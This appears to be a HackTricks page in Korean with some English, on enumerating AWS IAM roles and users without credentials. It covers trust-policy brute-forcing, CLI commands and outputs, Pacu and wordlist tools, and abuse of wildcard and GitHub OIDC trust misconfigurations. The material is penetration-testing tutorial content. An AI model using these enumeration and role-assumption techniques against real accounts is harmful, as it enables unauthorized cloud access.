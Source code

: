 # AWS - IAM & STS 인증되지 않은 열거

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## 계정에서 역할 및 사용자 이름 열거하기

### ~~역할 가정 브루트포스~~

{% hint style="danger" %}
**이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 아니든 항상 다음과 같은 오류가 발생합니다:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

다음 명령어를 실행하여 **테스트할 수 있습니다**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

필요한 권한 없이 **역할을 가정하려고 시도하면** AWS 오류 메시지가 발생합니다. 예를 들어, 권한이 없는 경우 AWS는 다음과 같은 메시지를 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만, 해당 역할의 가정 정책이 당신의 가정을 허용하지 않음을 나타냅니다. 반대로, **존재하지 않는 역할을 가정하려고 하면 다른 오류가 발생합니다**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미롭게도, **존재하는 역할과 존재하지 않는 역할을 구별하는** 이 방법은 서로 다른 AWS 계정 간에도 적용 가능합니다. 유효한 AWS 계정 ID와 타겟 단어 목록을 사용하면, 본질적인 제한 없이 계정에 존재하는 역할을 열거할 수 있습니다.

이 문제를 악용하여 잠재적인 주체를 열거하는 [스크립트를 사용할 수 있습니다](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum).

### 신뢰 정책: 크로스 계정 역할 및 사용자에 대한 무차별 대입

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 해당 역할을 가정할 수 있는 AWS 리소스 또는 서비스를 정의하는 것을 포함합니다** 그리고 임시 자격 증명을 얻습니다. 정책에 지정된 리소스가 **존재하면**, 신뢰 정책은 **성공적으로** 저장됩니다. 그러나 리소스가 **존재하지 않으면**, **오류가 발생**하여 잘못된 주체가 제공되었음을 나타냅니다.

{% hint style="warning" %}
해당 리소스에서 크로스 계정 역할 또는 사용자를 지정할 수 있습니다:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

이것은 정책 예시입니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

존재하지 않는 **역할**을 사용하면 이 **오류**를 찾게 됩니다. 역할이 **존재**하면 정책이 오류 없이 **저장**됩니다. (이 오류는 업데이트에 대한 것이지만 생성할 때도 작동합니다)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:  
역할이 잘못 구성되어 누구나 이를 가정할 수 있는 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## 제3자 OIDC 연합

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수 있지만, **더 많은 조건의 부족**으로 인해 신뢰하지 않아야 합니다.\
이것은 이전 역할이 **Github Actions의 누구나** 가정할 수 있기 때문입니다! 조건에 조직 이름, 저장소 이름, 환경, 브랜치와 같은 다른 사항도 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 **조건을 추가하는** 것입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론** (:) 앞에 **와일드카드** (\*)가 있다는 점에 유의하세요. **org\_name1**과 같은 조직을 만들고 Github Action에서 **역할을 가정**할 수 있습니다.

## 참고자료

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 **팔로우**하세요.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.

</details>
{% endhint %}
